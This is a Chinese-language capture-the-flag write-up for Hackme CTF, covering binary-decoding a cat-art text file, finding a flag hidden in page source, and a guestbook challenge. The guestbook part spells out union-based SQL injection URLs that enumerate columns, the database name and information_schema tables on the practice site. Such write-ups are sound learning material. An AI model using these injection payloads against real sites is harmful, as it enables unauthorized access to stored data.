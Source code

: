 # Hackme CTF
###### tags: `Hackme CTF`
這篇筆記主要是紀錄一下自己的 Hackme CTF 的 write up，打算慢慢寫，解到哪寫到哪，做個紀錄，希望最終能把 100 題全都解完~
:::warning
只紀錄解題過程不紀錄 flag 哦！
:::
[TOC]
## flag
- 送分題，直接給 flag。
##  pusheen.txt
- 題目的 xz 解壓縮是一個 txt，裡面都是黑白貓，直覺想到轉成 0 跟 1 試試。
    ```python=
    # -*- coding: utf-8 -*-
    with open('pusheen.txt', 'r') as f:
        data = f.readlines()
    code = ""
    for i in range(0, len(data), 16):
        if "▒" in data[i+8]:
            code+="1"
        else:
            code+="0"
    print(code)
    ```
- 得到的 binary 轉 hex 再轉成 ascii 就是 flag 了。(cyberchef)

    ![](https://i.imgur.com/3exAUOU.png)

## hide and seek
- 看到這題剛好想到會不會頁面本身有藏 FLAG，看了 scoreboard 好像沒看到甚麼明顯的。
- 回到 homepage F12 Ctrl+F 搜尋 flag 字串就會發現有個隱藏 flag。

## guestbook
- 網頁就是個記事本，建一個 New post 後，到 message list 可以看到。
- 點開 post 會發現他是用 id 做 sql 查詢，很有 sql injection 的味道。

    ![](https://i.imgur.com/0hSoGeJ.png)

- 先用 union 試試 column 數量，試到 4 正常顯示，沒有 syntax error，得知 colum 4 個。
    - `https://ctf.hackme.quest/gb/?mod=read&id=0%20union%20select%201,2,3,4`

- 能顯示出的 (2, 3, 4) 就可以替換成想要偷的資料。
- 先找出目前所在 db 的名字。
    - `https://ctf.hackme.quest/gb/?mod=read&id=0%20union%20select%201,2,3,database()`

- 再來找 db 存在的資料表，用 union + limit，從 0 開始試，就找到 flag 資料表了。
    - `https://ctf.hackme.quest/gb/?mod=read&id=0%20union%20select%201,2,3,(select%20table_name%20FROM%20information_schema.tables%20limit%200,1)`
    - 
- 用一樣方式找 column，4 改下面的子查詢，limit 0, 1 就拿到 flag 欄位了
    - `SELECT column_name FROM information_schema.columns WHERE table_schema="g8" AND table_name="flag" limit 0, 1`
